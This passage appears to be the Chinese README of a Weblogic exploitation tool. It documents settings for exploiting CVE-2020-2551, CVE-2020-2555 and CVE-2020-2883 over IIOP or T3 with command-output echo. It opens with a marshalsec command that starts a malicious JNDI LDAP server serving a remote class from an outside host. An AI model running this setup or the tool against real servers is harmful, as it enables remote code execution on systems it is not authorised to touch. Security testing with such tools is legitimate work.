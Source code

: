 ```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://qch7ecs9e.bkt.clouddn.com/#PocServerClusterMasterRemote 1099
```

#### 漏洞编号

默认情况下为`请选择`选项，目前已经集成 CVE-2020-2551、CVE-2020-2555、CVE-2020-2883。

#### 协议

测试、利用漏洞时使用的协议，默认情况下使用 IIOP 协议，**T3 协议不稳定**。

#### 回显类

使用 T3、IIOP 协议进行利用时执行命令回显的类，默认情况下为 ClusterMasterRemote。

#### 编码

执行命令执行回显的编码，默认情况下为自动，可通过配置项设置为 UTF-8、GBK 编码。

#### 版本

Weblogic 版本，在提前得知版本的情况下可通过该方式进行配置。

## FQA

**Q：为什么加入之前的漏洞？**

Weblogic 的安全更新补丁是互斥的，安装是需要卸载之前的补丁，所以只需要保持最近一年的精华利用漏洞即可。

## 更新日志

2020-06-25

- 新增 T3、IIOP 协议开放检测
- 优化 CVE-2020-2551 回显方案

2020-04-04

- 取消入口为 ip + port 方式修改为 url 方式
- 修改部分实现

